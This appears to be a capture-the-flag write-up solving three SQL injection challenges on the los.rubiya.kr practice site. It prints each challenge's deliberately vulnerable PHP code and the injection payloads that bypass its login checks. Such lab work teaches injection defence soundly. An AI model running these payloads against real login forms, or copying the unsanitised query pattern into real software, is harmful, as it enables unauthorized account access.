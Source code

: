## Lord Of SQL Injection

At [los.rubiya.kr](https://los.rubiya.kr/).

### Gremlin:

```php
Challenge:

query : select id from prob_gremlin where id='' and pw=''

<?php
  include "./config.php";
  login_chk();
  $db = dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); // do not try to attack another table, database!
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  $query = "select id from prob_gremlin where id='{$_GET[id]}' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysqli_fetch_array(mysqli_query($db,$query));
  if($result['id']) solve("gremlin");
  highlight_file(__FILE__);
?>
```

We just need to bypass the login with the simple `1' OR '1'='1`.

Final Url: `https://los.rubiya.kr/chall/gremlin_280c5552de8b681110e9287421b834fd.php/?id=1&pw=1%27%20OR%20%271%27=%271`

Human Readable `https://los.rubiya.kr/chall/gremlin_280c5552de8b681110e9287421b834fd.php/?id=1&pw=1' OR '1'='1`

Final Query: `select id from prob_gremlin where id='1' and pw='1' OR '1'='1'`

### Cobolt

```php
Challenge:

query : select id from prob_cobolt where id='' and pw=md5('')

<?php
  include "./config.php"; 
  login_chk();
  $db = dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_cobolt where id='{$_GET[id]}' and pw=md5('{$_GET[pw]}')"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id'] == 'admin') solve("cobolt");
  elseif($result['id']) echo "<h2>Hello {$result['id']}<br>You are not admin :(</h2>"; 
  highlight_file(__FILE__); 
?>
```

We just need to bypass the MD5 password check and login as admin. So we use a `#` to comment out the MD5 check.

Final URL: `https://los.rubiya.kr/chall/cobolt_b876ab5595253427d3bc34f1cd8f30db.php?id=admin%27%20%23`

Human Readable: `https://los.rubiya.kr/chall/cobolt_b876ab5595253427d3bc34f1cd8f30db.php?id=admin' #`

Final Query: `select id from prob_cobolt where id='admin' #' and pw=md5('')`

### Goblin

```php
Challenge:

query : select id from prob_goblin where id='guest' and no=

<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[no])) exit("No Hack ~_~"); 
  if(preg_match('/\'|\"|\`/i', $_GET[no])) exit("No Quotes ~_~"); 
  $query = "select id from prob_goblin where id='guest' and no={$_GET[no]}"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("goblin");
  highlight_file(__FILE__); 
?>
```

Currently, we cannot edit the `id='guest'` before the `'no'` parameter, so we must focus on making the `SELECT` statement's first part evaluate to `false`, allowing us to inject whatever usernumber `no` into the second part of the statement.

Firstly, by adding `?no=1` to the url, we see the statement `Hello guest`.

This means that `id='guest' and no=1` has evaluated to `true`.
Thus, to make it evaluate to `false`, we simply change the end of the url to `?no=2`.

Then, the webpage returns to "normal" and we know that the first part of the statement has evaluated to `false`.

Next, to get the webpage to say "Hello Admin", since we know that number 1 is guest, we can try to add a `or no=2` after the earlier payload to evaluate false. 

Thus, the final payload is `?no=2 or no=2`.

Final URL: `https://los.rubiya.kr/chall/goblin_e5afb87a6716708e3af46a849517afdc.php?no=2%20OR%20no=2`

Human Readable: `https://los.rubiya.kr/chall/goblin_e5afb87a6716708e3af46a849517afdc.php?no=2 OR no=2`

Final Query: `select id from prob_goblin where (id='guest' and no=2) OR no=2`
